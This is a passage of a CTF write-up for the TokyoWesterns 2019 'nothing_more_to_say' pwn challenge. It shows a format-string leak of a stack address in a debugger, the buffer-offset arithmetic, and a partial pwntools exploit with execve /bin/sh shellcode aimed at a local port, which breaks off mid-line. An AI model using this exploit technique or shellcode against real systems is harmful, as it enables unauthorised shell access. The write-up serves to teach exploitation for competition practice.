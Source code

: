```  
%41$016lx  
00007fffffffdf98[Inferior 1 (process 9302) exited normally]  
gef➤  
```

It worked!  We can now calculate our buffer address at an offset of this
pointer.  Our buffer is at address `0x00007fffffffddb0` which we can see in
`rdi` right before printf is called.

`00007fffffffdf98 - 0x00007fffffffddb0 = 0x1e8`

Therefore, our buffer will always be at `addr - 0x1e8`

Putting it all together, we will  
1. Overflow the buffer with `%41$016lx ...264 total bytes + address_of_main`  
2. Use the leaked pointer to calculate the buffer address  
3. Send another overflow, this time with `nops... + shellcode + address_of_buffer`  
4. Enjoy our shell!

```python  
#!/usr/bin/python2

from pwn import *  
import struct

ADDR_START = 0x400590

# https://www.exploit-db.com/shellcodes/47008  
sc = "\x48\x83\xEC\x40" # sub rsp, 64  
sc += "\x48\x31\xf6\x56\x48\xbf"  
sc += "\x2f\x62\x69\x6e\x2f"  
sc += "\x2f\x73\x68\x57\x54"  
sc += "\x5f\xb0\x3b\x99\x0f\x05"

r = remote("127.0.0.1", 10001)

r.recvuntil(":)\n")

r.send("%41$016lx" + "A"*(264-9) + struct.pack("

Original writeup
(https://github.com/kernelpoppers/ctf_writeups/tree/master/TokyoWesterns2019/nothing_more_to_say).